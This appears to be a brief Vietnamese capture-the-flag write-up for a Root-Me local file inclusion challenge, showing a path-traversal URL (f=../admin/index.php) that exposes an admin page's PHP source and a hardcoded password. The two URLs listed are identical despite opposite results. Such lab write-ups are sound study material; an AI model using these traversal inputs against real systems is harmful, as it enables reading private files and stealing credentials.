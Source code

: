 # root-me/Local File Inclusion/Abbreviated LFI

## 15/7/2025 

### Đề:

Get in the admin section.

### Giải:

Thư mục admin cùng thư mục root -> thử:

- `http://challenge01.root-me.org/web-serveur/ch16/?files=sysadm&f=../admin/index.php` (ko đc)
- `http://challenge01.root-me.org/web-serveur/ch16/?files=sysadm&f=../admin/index.php` (ra file)

```php
$realm = 'PHP Restricted area';
$users = array('admin' => 'OpbNJ60xYpvAQU8');
```

Ra pass.
